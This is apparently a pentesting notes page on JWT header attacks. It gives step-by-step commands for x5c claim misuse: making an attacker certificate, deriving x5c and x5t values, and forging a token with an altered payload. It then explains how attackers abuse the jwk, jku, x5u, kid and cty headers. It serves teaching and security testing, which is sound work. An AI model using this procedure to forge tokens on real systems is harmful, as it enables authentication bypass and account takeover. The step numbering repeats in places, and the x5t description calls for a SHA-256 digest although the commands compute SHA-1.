     -------------------------------
    x5c Claim Misuse:
    Note:The algorithm used for signing the token is “RS256”.
    The token is using x5c header parameter which contains the X.509 certificate to be used for token verification.
    The token has various fields: n, e, x5c, x5t, kid. Also, notice that kid value is equal to x5t value.

    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token.
    3. Decode the JWT token and check if it contents x5c attribute in Header section.
    * <https://jwt.io> automatically extracts the X.509 certificate and places it in the “Verify Signature” sub-section in “Decoded” section.

    4. Create a self-signed certificate:
    		"openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt"
    5. Extracting RSA public key parameters (n and e) from the generated certificate
    		"openssl x509 -in attacker.crt -text"
    6. Converting modulus (n) to base64-encoded hexadecimal strings
    		"echo "Modules (n) value will be here"| sed ‘s/://g’ | base64 | tr ‘\\n’ ‘ ‘ | sed ‘s/ //g’ | sed ‘s/=//g’"
    7. Converting exponent (e) to base64-encoded hexadecimal strings
    		"echo "exponent (e) here" | base64 | sed ‘s/=//g’"
    8. Finding the new x5c value
    		"cat attacker.crt | tr ‘\\n’ ‘ ‘ | sed ‘s/ //g’"
    9. Copy the contents excluding the — -BEGINCERTIFICATE — — and — — ENDCERTIFICATE — — part.
    8. Finding the new x5t value
    		"echo -n $(openssl x509 -in attacker.crt -fingerprint -noout) | sed ‘s/SHA1 Fingerprint=//g’ | sed ‘s/://g’ | base64 | sed ‘s/=//g’"
    * Note: The kid parameter would also get the same value as x5t parameter.
    9. Creating a forged token using all the parameters calculated in the previous step.
    10. Visit <https://jwt.io> and paste the token retrieved in Step 3 in the “Encoded” section.
    11. Paste the X.509 certificate (attacker.crt) and the private key (attacker.key) in their respective places in the “Decoded” section.
    12. Manipulate Payload section and copy the forged token
    13. Replace the forged token in the request and forward. Done!!
    ```

According to the JWS specification, only the `alg` header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

* `jwk` (JSON Web Key) - Provides an embedded JSON object representing the key.
* `jku` (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
* **`x5u and x5c` header parameter -** _The x5u and x5c header arguments, like the jku and jwk headers, allow attackers to define the public key certificate or certificate chain used to verify the token. x5u defines information in URI form, whereas x5c permits certificate data to be incorporated in the token._ Details of these attacks are beyond the scope of these materials, but for more details, check out [CVE-2017-2800](https://talosintelligence.com/vulnerability\_reports/TALOS-2017-0293) and [CVE-2018-2633](https://mbechler.github.io/2018/01/20/Java-CVE-2018-2633).
* **`x5t parameter`** - _The "x5t" (x.509 certificate thumbprint) header argument returns a base64url encoded SHA-256 thumbprint (i.e., digest) of an X.509 certificate's DER encoding, which may be used to match a certificate. As a result, it is equivalent to the key identifier or the kid claim!!_
* `cty` (Content Type) - Sometimes used to declare a media type for the content in the JWT payload. This is usually omitted from the header, but the underlying parsing library may support it anyway. If you have found a way to bypass signature verification, you can try injecting a `cty` header to change the content type to `text/xml` or `application/x-java-serialized-object`, which can potentially enable new vectors for [XXE](https://portswigger.net/web-security/xxe) and [deserialization](https://portswigger.net/web-security/deserialization) attacks
* `kid` (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching `kid` parameter.
